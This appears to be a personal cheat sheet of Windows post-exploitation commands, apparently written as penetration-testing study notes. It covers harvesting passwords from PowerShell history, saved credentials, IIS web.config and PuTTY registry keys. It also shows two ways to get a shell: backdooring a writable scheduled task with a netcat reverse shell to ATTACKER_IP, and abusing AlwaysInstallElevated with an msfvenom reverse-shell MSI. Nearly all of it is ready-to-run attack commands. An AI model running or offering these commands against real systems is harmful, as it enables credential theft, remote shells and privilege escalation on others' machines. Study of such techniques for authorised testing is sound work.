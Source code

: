 ### Harvesting Password
  #### Powershell History　　－　in cmd
    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    // To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

  #### Saved Windows Credentials
    cmdkey /list
    //runas to view a username in the list, nad launch a cmd
    runas /savecred /user:xxx cmd.exe

  #### IIS Configuration
    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    or C:\inetpub\wwwroot\web.config

  #### Retrieve Credentials from Software: PuTTY
    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s  
      // Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
  #### Scheduled Tasks
    schtasks
    schtasks /query /tn vulntask /fo list /v //to view a particular task

    icacls c:\tasks\xxx  //to view the privi, F is full access

    //if yes we can modify it as a backdoor,
    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
    schtasks /run /tn vulntask  //run immediately
  
  #### AlwaysInstallElevated  
    msi files can be configured to run with higher privileges from any user account (even unprivileged ones)
      //enable below 2 values
    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    //msf create revershell msi, should also run the Metasploit Handler module configured accordingly
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

     msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
